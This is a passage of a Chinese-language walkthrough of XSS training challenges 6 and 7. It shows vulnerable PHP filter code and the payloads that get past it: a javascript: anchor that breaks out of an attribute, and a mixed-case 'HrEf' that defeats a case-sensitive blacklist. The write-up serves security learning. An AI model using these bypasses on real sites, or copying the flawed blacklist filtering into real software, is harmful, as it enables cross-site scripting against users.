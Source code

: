 ```shell
//使用伪协议绕过
`"> <a href="javascript:alert(1)">click</a>`
```

`Result`

![image-20200828151240091](/images/XSS/image-20200828151240091.png)

##### 挑战六

```shell
//使用伪协议绕过
`"> <a href="javascript:alert(1)">click</a>`
```

![image-20200828151906636](/images/XSS/image-20200828151906636.png)

````php+HTML
//发现添加了多个属性进行过滤操作
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
````

```shell
//发现并未对大小写过滤，
`"> <a HrEf="javascript:alert(1)">click</a>`
```

`Result`

![image-20200828152455501](/images/XSS/image-20200828152455501.png)

##### 挑战七

```shell
//使用大小写测试
`"> <a HrEf="javascript:alert(1)">click</a>`
```

![image-20200828152734820](/images/XSS/image-20200828152734820.png)

```php+HTML
//添加script替换为空
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
```
